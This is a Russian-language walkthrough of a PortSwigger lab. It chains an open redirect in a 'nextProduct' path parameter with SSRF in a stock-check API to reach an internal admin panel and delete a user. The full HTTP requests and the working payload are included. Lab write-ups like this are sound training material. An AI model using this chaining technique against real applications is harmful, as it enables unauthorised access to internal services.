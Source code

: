 ```yaml
---
title: "SSRF with filter bypass via open redirection vulnerability"
date: 2025-07-22
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/ssrf-attacks/ssrf-attacks-circumventing-defenses/ssrf/lab-ssrf-filter-bypass-via-open-redirection"
classes: wide
---
```


Для решения лабы нужно удалить пользователя `carlos`, получив доступ к кабинету админа `http://192.168.0.12:8080/admin`.

```
https://0a810022044da5f780d2817c00320062.web-security-academy.net/
```

## Solution

Известно, что тут есть узявимость **SSRF**, а значит нужно найти запрос, который содержит в себе адрес удаленного сервиса. Немного погуляв по сайту, нашел следующий запрос:

```http
POST /product/stock HTTP/2
Host: 0a810022044da5f780d2817c00320062.web-security-academy.net
Cookie: session=4AvVEzAX1KGOlGpO61s28eqVOmczi6k8; session=FGHul2TxRLaPWelwgX7Kfvo7N9k4FwPu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a810022044da5f780d2817c00320062.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://0a810022044da5f780d2817c00320062.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

Могу предположить, что через `stockApi` можно передать нужный адрес:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 48

"Invalid external stock check url 'Invalid URL'"
```

Ну не все так просто, как могло показаться(

На странице товара увидел кнопку `Next product`. Она отправляет следующий запрос:

```http
GET /product/nextProduct?currentProductId=1&path=/product?productId=2
```

В параметре `path` указывается путь до нужно страницы. Попробую подставить путь до картинки:

```http
GET /product/nextProduct?currentProductId=1&path=/image/productcatalog/products/59.jpg HTTP/2
Host: 0a810022044da5f780d2817c00320062.web-security-academy.net
Cookie: session=67v801jAftj4fL192RkkEgHPX4BfYN95; session=FGHul2TxRLaPWelwgX7Kfvo7N9k4FwPu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a810022044da5f780d2817c00320062.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Ответ:

```http
HTTP/2 302 Found
Location: /image/productcatalog/products/59.jpg
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Меня перенаправило, а значит тут есть узявимость **Open redirection**. Попробую добавить `path=http://192.168.0.12:8080/admin` в запрос.


```http
POST /product/stock HTTP/2
Host: 0a810022044da5f780d2817c00320062.web-security-academy.net
Cookie: session=4AvVEzAX1KGOlGpO61s28eqVOmczi6k8; session=FGHul2TxRLaPWelwgX7Kfvo7N9k4FwPu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a810022044da5f780d2817c00320062.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://0a810022044da5f780d2817c00320062.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

Ответ:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3177

...

```

Получил ответ. А в нем и нужный запрос для удаления пользователя.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_SSRF_with_filter_bypass_via_open_redirection_vulnerability/1.png){: height="200" .align-center}

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3019

...

```

Пользователь удален, а значит лаба решена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_SSRF_with_filter_bypass_via_open_redirection_vulnerability/2.png){: height="200" .align-center}